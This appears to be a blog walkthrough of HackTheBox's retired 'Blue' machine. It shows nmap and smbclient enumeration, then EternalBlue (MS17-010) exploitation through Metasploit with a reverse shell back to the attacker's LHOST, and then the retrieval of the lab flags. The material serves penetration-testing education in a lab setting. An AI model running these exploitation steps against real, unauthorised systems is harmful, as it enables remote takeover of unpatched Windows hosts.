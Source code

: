 ```yaml
---
title: "Blue | HackTheBox Walkthrough"
date: 2025-06-10
excerpt: Walkthrough of HackTheBox's retired machine Blue covering enumeration, SMB null sessions, and MS17-010 exploitation.
categories:
  - htb               
header:
  teaser: /assets/images/htb/blue/blue.png
---
```


<img src="/assets/images/htb/blue/blue.png"
     alt="Alt text describing the image"
     class="align-center"      
     style="max-width: 600px;" />

# Overview
Blue is considered a beginner-friendly box on Hack The Box; its purpose was to teach a valuable lesson about how unpatched systems can become vulnerable. The EternalBlue exploit had severe implications worldwide and has been used in large-scale ransomware attacks. It targeted Windows Server Message Block (SMB) protocol, which is used for shared access to files, printers, and other network resources. Why was it so critical? Windows is one of the most widely used operating systems globally, and this exploit, which leveraged the SMBv1 bug, enabled remote code execution attacks on the target system. 

---

## Full Port Scan and Initial Enumeration

I kicked off with a full TCP port scan using aggressive timing to identify open services quickly.

---

```bash
nmap -sCV -p- <ip> --min-rate=1000 --min-parallelism=1000 -v
```

**Key Flags:**
- `-sC`: runs default Nmap scripts
- `-sV`: enables version detection
- `-p-`: Scans all 65535 ports
- `--min-rate=1000`: sends packets faster than the default rate.
- `--min-parallelism=1000`: sends probes in parallel for speed.

> i only use `--min-rate` and `--min-parallelism` in CTF environments to speed up discovery.

```
Nmap scan report for 10.129.13.80
Host is up (0.067s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-06-10T23:29:27+01:00
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-06-10T22:29:29
|_  start_date: 2025-06-10T22:12:45
|_clock-skew: mean: -4h40m37s, deviation: 34m37s, median: -4h20m38s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```
From the nmap result we have 9 ports that are open which are all MSRPC besides 2.
Ports `139` and `445` which are used for SMB.
looking further down in host script results we see that windows 7 professional is installed, and the computer name is Haris-PC.

---

## SMB Enumeration and Null Session Access

After seeing ports `139` and `445` open, I decided to check for unauthenticated SMB Access:

```bash
smbclient -L \\\\ip\\ -N
```


**Key Flags:**
- `-L`: This option allows you to list the existing shares.
- `-N`: Allows us to try and connect to SMB without credentials (Null Session)  

![](/assets/images/htb/blue/2smb.png)

This tests for null session access, and it worked! I was able to list all the available shares for us.
To further enumerate share permissions, I ran:

```bash
nmap <ip> -p 445 --script=smb-enum-shares
```
This confirmed that several shares are readable and that SMBv1 was active. This is generally a red flag on older Windows systems due to its easy exploitation.
![](/assets/images/htb/blue/3nmapsmb.png)

---

## Finding The Vulnerability: MS17-010

From our Nmap scan, we can see that the target is running Windows 7 Pro, and SMBv1 is enabled. After a quick Google search for `Windows 7 Professional 7601 vulnerability`, we were met with several pages, including Microsoft talking about MS17-010, which is the EternalBlue exploit, which was a remote code execution vulnerability.

![](/assets/images/htb/blue/4googleblue.png)

---

## Exploiting EternalBlue with Metasploit

```bash
msfconsole
search eternalblue
use exploit/windows/smb/ms17_010_eternalblue
```
Instead of typing the whole exploit path, as I just showed, we could also use the corresponding number. In my case, it was 0

![](/assets/images/htb/blue/5msf.png)

After this, I set up the required options by typing 'options' and filling in the RHOST, LHOST, and LPORT fields.

**key Flags**
- `RHOST`: is the remote host, which in our case is the HTB IP.
- `LHOST` is for our local host.
- `LPORT`: is for the port we want to use

```bash
set RHOST 10.129.13.80
set LHOST <OUR  IP>
set LPORT 4444 # or whichever port you would like to use
```

![](/assets/images/htb/blue/6setup.png)

I ran `check` to verify if the host was vulnerable, and metasploit did confirm it.

```bash
check
```

![](/assets/images/htb/blue/7check.png)

After confirmation, I typed 'run' and the exploit executed. Once we see `meterpreter>` we can type shell to get a shell and we are in as system!

```bash
run
```
![](/assets/images/htb/blue/8run.png)

```bash
shell
```

![](/assets/images/htb/blue/9pwnd.png)

---

## Post-Exploitation and Flags

With full system access I was able to retrieve the user and root flags by going through Haris' folder and administrator.
Both flags reside on the desktop of each user.

```bash
cd C:\Users
dir

cd Haris\Desktop
type user.txt
```
![](/assets/images/htb/blue/10user.png)

```bash
cd ..\Administrator\Desktop
type root.txt
```
![](/assets/images/htb/blue/11root.png)

Flags obtained:

- `user.txt`: ✔️  
- `root.txt`: ✔️

---

## Key Takeaways
- Always check for null sessions when SMB is open
SMBv1 is still in use and can be easily exploited, as we have demonstrated.
- Always use multiple tools! In our case, we did use smbclient with nmap to get a better picture early on.

---


